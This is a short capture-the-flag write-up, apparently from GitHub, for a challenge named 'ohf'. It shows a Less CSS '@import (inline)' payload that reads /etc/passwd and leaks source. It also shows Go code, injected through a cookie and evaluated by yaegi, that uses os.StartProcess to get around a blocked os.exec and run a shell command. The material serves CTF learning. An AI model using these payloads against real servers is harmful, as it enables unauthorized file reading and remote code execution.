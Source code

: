 # ohf

Interesting challenge:
- [lesscs](https://lesscss.org/) is used to evaluate CSS on the backend. Can read arbitrary files with `@import (inline) "/etc/passwd";`
- Leak source code
- Uses [interp](https://github.com/traefik/yaegi) to evaluate golang at runtime from cookie
- Control `Version` in cookie, get arbitrary code execution
- Realize `os.exec` is blocked, use `os.StartProcess` instead
```
	import "io/ioutil"
    import "os"
	func api() string {
		v, _ := ioutil.ReadFile("satellite.txt")
        var procAttr os.ProcAttr
        procAttr.Files = []*os.File{os.Stdin, os.Stdout, os.Stderr}
        p, _ := os.StartProcess("/bin/sh", []string{"/bin/sh", "-c", "/readflag > /tmp/jizz"}, &procAttr)
        p.Wait()
		return string(v)
	}
```

